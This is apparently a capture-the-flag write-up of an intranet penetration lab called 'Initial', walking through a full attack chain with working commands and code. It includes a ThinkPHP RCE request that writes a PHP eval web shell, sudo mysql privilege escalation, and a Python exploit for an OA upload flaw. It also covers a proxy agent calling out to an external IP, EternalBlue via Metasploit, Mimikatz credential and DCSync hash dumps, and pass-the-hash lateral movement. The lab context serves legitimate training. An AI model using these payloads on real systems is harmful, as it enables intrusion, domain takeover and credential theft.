










# Spring and Autumn Cloud Mirror & Initial

## Target Introduction
`Initial` is a shooting range environment with simple difficulty. Completing this challenge can help players to understand the simple process of intranet penetration. The shooting range has only one `flag`, and each part is located on different machines.

## Attack Process

The initial IP given in the title corresponds to a management system developed by the ThinkPHP framework. It was found that there is a `ThinkPHP 5.0.23 RCE` vulnerability. After writing a sentence, the Trojan horse was connected with an ant sword.

```html
http://39.99.234.215/?s=captcha&test=-1

POST:
_method=__construct&filter[]=system&method=GET&server[REQUEST_METHOD]=echo%20PD9waHAgQGV2YWwoJF9SRVFVRVNUWzFdKTs%2FPg%3D%3D%7Cbase64%20-d%20%3E%20%2Fvar%2Fwww%2Fhtml%2Fh3.php
```

`www-data` permission, try to `SUID` to escalate permission, find that the `mysql` command can be used to escalate permission, get the first part of `flag` in `/root/flag/flag01.txt`: `flag{60b53231-`

```bash
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -print 2>/dev/null
sudo -l
```



```bash
sudo mysql -e '\! ls /root/flag'
sudo mysql -e '\! cat /root/flag/flag01.txt'
```



Check the network card information and find that there is a `172.22.1.1` network segment, upload the scanning tool `fscan` and the proxy tool `Stowaway`

```bash
# Add permissions
sudo mysql -e '\! chmod 777 /var/www/html/fscan_amd64'
sudo mysql -e '\! chmod 777 /var/www/html/linux_x64_agent'

# Scan the network segment
./fscan_amd64 -h 172.22.1.1/24 -np

# server
./linux_x64_admin -l 22222 -s h3rmesk1t
# Target machine
./linux_x64_agent -c "114.55.6.121:22233" -s h3rmesk1t
```



`fscan` scan result, `172.22.1.2` address is the domain control host address, `172.22.1.21` address has `MS17-010` vulnerability, `172.22.1.18` address has `Call OA` application

```text
start infoscan
trying RunIcmp2
The current user permissions unable to send icmp packets
start ping
(icmp) Target 172.22.1.2 is alive
(icmp) Target 172.22.1.18 is alive
(icmp) Target 172.22.1.21 is alive
(icmp) Target 172.22.1.15 is alive
[*] Icmp alive hosts len is: 4
172.22.1.18:3306 open
172.22.1.21:445 open
172.22.1.18:445 open
172.22.1.2:445 open
172.22.1.18:139 open
172.22.1.21:139 open
172.22.1.2:139 open
172.22.1.21:135 open
172.22.1.18:135 open
172.22.1.2:135 open
172.22.1.18:80 open
172.22.1.15:80 open
172.22.1.2:88 open
172.22.1.15:22 open
[*] alive ports len is: 14
start vulscan
[*] NetInfo:
[*]172.22.1.21
   [->]XIAORANG-WIN7
   [->]172.22.1.21
[*] NetInfo:
[*]172.22.1.18
   [->]XIAORANG-OA01
   [->]172.22.1.18
[*] WebTitle: http://172.22.1.15 code:200 len:5578 title:Bootstrap Material Admin
[*] NetInfo:
[*]172.22.1.2
   [->]DC01
   [->]172.22.1.2
[*] NetBios: 172.22.1.2 [+]DC DC01.xiaorang.lab Windows Server 2016 Datacenter 14393
[*] NetBios: 172.22.1.21 XIAORANG-WIN7.xiaorang.lab Windows Server 2008 R2 Enterprise 7601 Service Pack 1
[+] 172.22.1.21 MS17-010 (Windows Server 2008 R2 Enterprise 7601 Service Pack 1)
[*] 172.22.1.2 (Windows Server 2016 Datacenter 14393)
[*] NetBios: 172.22.1.18 XIAORANG-OA01.xiaorang.lab Windows Server 2012 R2 Datacenter 9600
[*] WebTitle: http://172.22.1.18 code:302 len:0 title:None Jump url: http://172.22.1.18?m=login
[*] WebTitle: http://172.22.1.18?m=login code:200 len:4012 title: Xinkun collaborative office system
[+] http://172.22.1.15 poc-yaml-thinkphp5023-method-rce poc1
```

First, test the vulnerability of the `Sign Call OA` application with the address `172.22.1.18, use the weak password `admin/admin123` to enter the background, and issue a file upload vulnerability, task resources -> document transfer -> upload files, and the attack script is as follows

```python
import requests


session = requests.session()

url_pre = 'http://172.22.1.18/'
url1 = url_pre + '?a=check&m=login&d=&ajaxbool=true&rnd=533953'
url2 = url_pre + '/index.php?a=upfile&m=upload&d=public&maxsize=100&ajaxbool=true&rnd=798913'
url3 = url_pre + '/task.php?m=qcloudCos|runt&a=run&fileid=11'

data1 = {
    'rempass': '0',
    'jmpass': 'false',
    'device': '1625884034525',
    'ltype': '0',
    'adminuser': 'YWRtaW4=',
    'adminpass': 'YWRtaW4xMjM=',
    'yanzm': ''
}


r = session.post(url1, data=data1)
r = session.post(url2, files={'file': open('1.php', 'r+')})

filepath = str(r.json()['filepath'])
filepath = "/" + filepath.split('.uptemp')[0] + '.php'
id = r.json()['id']
print(id)
print(filepath)
url3 = url_pre + f'/task.php?m=qcloudCos|runt&a=run&fileid={id}'

r = session.get(url3)
r = session.get(url_pre + filepath + "?1=system('dir');")
print(r.text)
```

```php
<?= @eval($_REQUEST[1]);?>
```



Get the second part of `flag` in `C:/Users/Administrator/flag/flag02.txt`: `2ce3-4813-87d4-`



Then call the `172.22.1.21` address host exists
`MS17-010` vulnerability, use `msf` to attack, establish forward connection, `system` permission

```bash
search ms17-010
use exploit/windows/smb/ms17_010_eternalblue
set payload windows/x64/meterpreter/bind_tcp
set RHOSTS 172.22.1.21
exploit
```



Crawl the user's `hash`

```bash
load kiwi
creds_all
```

```
XIAORANG-WIN7$ XIAORANG 84efe3532fa285d59f61fcb11e6d83f2 a8cca0b211cdb2503fa1554968b7fa981b3d7502
```

Then upload `SharpHound.exe` to collect information in the domain

```bash
upload "/Users/alphag0/Desktop/Tools/Penetration/AD Security/SharpHound/SharpHound.exe" "C:/SharpHound.exe"

Shell
chcp 65001

cd C:/
SharpHound.exe -c all

download "C:/20231108104348_BloodHound.zip" "/Users/alphag0/Desktop/"
```





You can see that `XIAORANG-WIN7` can play `DCSync`



Use `DCSync` to get the `hash` of all users in the `dump` domain

```bash
load kiwi
kiwi_cmd lsadump::dcsync /all /csv
```

```
[DC] 'xiaorang.lab' will be the domain
[DC] 'DC01.xiaorang.lab' will be the DC server
[DC] Exporting domain 'xiaorang.lab'
[rpc] Service : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)
502 krbtgt fb812eea13a18b7fcdb8e6d67ddc205b 514
1106 Marcus e07510a4284b3c97c8e7dee970918c5c 512
1107 Charles f6a9881cd5ae709abb4ac9ab87f24617 512
500 Administrator 10cf89a850fb1cdbe6bb432b859164c8 512
1000 DC01$ 4cbd17f9b02c983c440393478ea4408c 532480
1108 XIAORANG-WIN7$ 84efe3532fa285d59f61fcb11e6d83f2 4096
1104 XIAORANG-OA01$ 2480adae09d2e045e2dbcc5b1ea425fb 4096
```

Use impacket-wmiexec to access the domain control by horizontally moving, and get the third part of `flag` in `C:\Users\Administrator\flag\flag03.txt`: `e8f88d0d43d6}`

```bash
python wmiexec.py xiaorang.lab/administrator@172.22.1.2 -hashes:10cf89a850fb1cdbe6bb432b859164c8
```

